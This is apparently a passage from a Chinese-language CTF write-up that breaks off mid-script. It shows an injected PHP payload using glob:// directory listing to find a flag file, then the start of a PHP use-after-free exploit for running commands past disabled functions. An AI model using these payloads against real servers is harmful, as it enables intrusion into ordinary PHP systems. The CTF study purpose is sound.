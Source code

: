 所以我们可以利用它来绕过限制，

(需要 url编码 后使用)

```php
c=?><?php
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
} 
exit(0);
?>
```

读取到 flag 在 /flag0.txt  下

然后使用 UAF 脚本读取flag（不懂）

```php
function pwn($cmd) {
    global $abc, $helper, $backtrace;
 
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
```